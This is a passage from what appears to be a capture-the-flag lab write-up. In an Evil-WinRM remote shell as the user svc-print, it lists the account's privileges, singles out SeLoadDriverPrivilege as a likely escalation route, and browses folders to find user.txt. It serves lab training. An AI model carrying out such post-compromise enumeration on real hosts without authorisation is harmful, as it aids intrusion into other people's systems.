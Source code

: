 ```text
PRIVILEGES INFORMATION
----------------------

Privilege Name                Description                    State
============================= ============================== =======
SeMachineAccountPrivilege     Add workstations to domain     Enabled
SeLoadDriverPrivilege         Load and unload device drivers Enabled
SeShutdownPrivilege           Shut down the system           Enabled
SeChangeNotifyPrivilege       Bypass traverse checking       Enabled
SeIncreaseWorkingSetPrivilege Increase a process working set Enabled


USER CLAIMS INFORMATION
-----------------------

User claims unknown.

Kerberos support for Dynamic Access Control on this device has been disabled.
*Evil-WinRM* PS C:\Users\svc-print\Documents> systeminfo
Program 'systeminfo.exe' failed to run: Access is deniedAt line:1 char:1
+ systeminfo
+ ~~~~~~~~~~.
At line:1 char:1
+ systeminfo
+ ~~~~~~~~~~
    + CategoryInfo          : ResourceUnavailable: (:) [], ApplicationFailedException
    + FullyQualifiedErrorId : NativeCommandFailed
```

`SeMachineAccountPrivilege` and `SeLoadDriverPrivilege` sounded like very interesting privileges.

### User.txt

```text
*Evil-WinRM* PS C:\users> tree /F C:\Users
Folder PATH listing
Volume serial number is E6C8-44FE
C:\USERS
ÃÄÄÄAdministrator
ÃÄÄÄPublic
ÃÄÄÄsthompson
ÀÄÄÄsvc-print
    ÃÄÄÄDesktop
    ³       user.txt
    ³
    ÃÄÄÄDocuments
    ÃÄÄÄDownloads
    ÃÄÄÄFavorites
    ÃÄÄÄLinks
    ÃÄÄÄMusic
    ÃÄÄÄPictures
    ÃÄÄÄSaved Games
    ÀÄÄÄVideos
*Evil-WinRM* PS C:\users> cd svc-print/Desktop
*Evil-WinRM* PS C:\users\svc-print\Desktop> ls


    Directory: C:\users\svc-print\Desktop


Mode                LastWriteTime         Length Name
----                -------------         ------ ----
-ar---        9/25/2020   1:23 PM             34 user.txt

```